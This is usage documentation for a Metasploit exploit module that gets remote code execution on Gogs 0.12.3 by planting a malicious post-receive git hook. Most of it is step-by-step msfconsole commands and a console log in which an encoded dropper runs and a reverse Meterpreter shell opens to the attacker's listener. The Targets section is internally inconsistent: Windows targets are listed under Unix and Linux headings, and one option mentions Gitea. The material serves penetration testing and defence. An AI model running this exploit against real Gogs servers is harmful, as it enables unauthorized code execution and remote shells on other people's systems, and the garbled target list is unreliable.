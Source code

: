 ## Vulnerable Application

### Description
This module leverages an insecure setting to get remote code execution on the
target OS in the context of the user running Gogs. This is possible when the
current user is allowed to create `git hooks`, which is the default for
administrative users. For non-administrative users, the permission needs to be
specifically granted by an administrator.

To achieve code execution, the module authenticates to the Gogs web interface,
creates a temporary repository, sets a `post-receive` git hook with the payload
and creates a dummy file in the repository. This last action will trigger the
git hook and execute the payload. Everything is done through the web interface.

No mitigation has been implemented so far (latest stable version is 0.12.3).

This module has been tested successfully against version 0.12.3 on Docker.
Windows version could not be tested since the git hook feature seems to be
broken.

### Setup

Follow the installation steps:
- With Docker: https://github.com/gogs/gogs/tree/main/docker
- From binary: https://gogs.io/docs/installation/install_from_binary
- From package: https://gogs.io/docs/installation/install_from_packages

## Verification Steps

1. Install the application (follow [Setup](#setup))
1. Start msfconsole
1. Do: `use multi/http/gogs_git_hooks_rce`
1. Do: `set USERNAME <username>`
1. Do: `set PASSWORD <password>`
1. Do: `set rhosts <ip>`
1. Do: `set rport <port>`
1. Do: `set lhost <ip>`
1. Do: `set target <target #>`
1. Do: `run`
1. You should get session.

## Targets

### 0 (Unix Command)

This executes a Unix command.

### 1 (Linux Dropper)

This uses a Linux dropper to execute code.

### 0 (Unix Command)

This executes a Windows command.

### 1 (Linux Dropper)

This uses a Windows dropper to execute code.

## Options

### TARGETURI

The base path of the Gitea application, which is set to `/` by default.

### USERNAME

The username to authenticate with.

### PASSWORD

The password to authenticate with.

## Scenarios

### Gogs 0.12.3 on Docker

```
msf > use multi/http/gogs_git_hooks_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/http/gogs_git_hooks_rce) > set USERNAME msfuser
USERNAME => msfuser
msf exploit(multi/http/gogs_git_hooks_rce) > set PASSWORD Msf!23
PASSWORD => Msf!23
msf exploit(multi/http/gogs_git_hooks_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/gogs_git_hooks_rce) > set RPORT 10080
RPORT => 10080
msf exploit(multi/http/gogs_git_hooks_rce) > set LHOST 192.168.1.75
LHOST => 192.168.1.75
msf exploit(multi/http/gogs_git_hooks_rce) > options

Module options (exploit/multi/http/gogs_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   Msf!23           yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10080            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   msfuser          yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.75     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(multi/http/gogs_git_hooks_rce) > set verbose true
verbose => true
msf exploit(multi/http/gogs_git_hooks_rce) > run

[*] Started reverse TCP handler on 192.168.1.75:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Gogs found
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Authenticate with "msfuser/Msf!23"
[*] Get "csrf" value
[+] csrf=RDAhjRw_I0Uf85CuY4_SBFjbO1A6MTYxNzIwMDUzNjMzNjg2NjEwMA
[+] Logged in
[*] Create repository "Sonsing_Duobam"
[*] Get "csrf" and "user_id" values
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[+] user_id=1
[+] Repository created
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAA...<redacted>
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAA...<redacted>
[*] Setup post-receive hook with command
[*] Get "csrf" value
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[+] Git hook setup
[*] Create a dummy file on the repo to trigger the payload
[*] Get "csrf" and "last_commit" values
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[+] last_commit=f8bbde6c14b8bbe92edfc802812a24be30e3fdbb
[*] qJcA.txt created
[+] File created, shell incoming...
[*] Command Stager progress - 100.00% done (833/833 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3008420 bytes) to 192.168.1.75
[*] Meterpreter session 1 opened (192.168.1.75:4444 -> 192.168.1.75:61502) at 2021-03-31 16:22:20 +0200
[*] Cleaning up
[*] Get "csrf" value
[+] csrf=sOMJHrFMKnfcrle5apA9CzNJ4DQ6MTYxNzIwMDUzNzMwMDk0MTgwMA
[*] Repository Sonsing_Duobam deleted.

meterpreter > getuid
Server username: git @ 4f1193a0be31 (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           :  (Linux 4.19.121-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
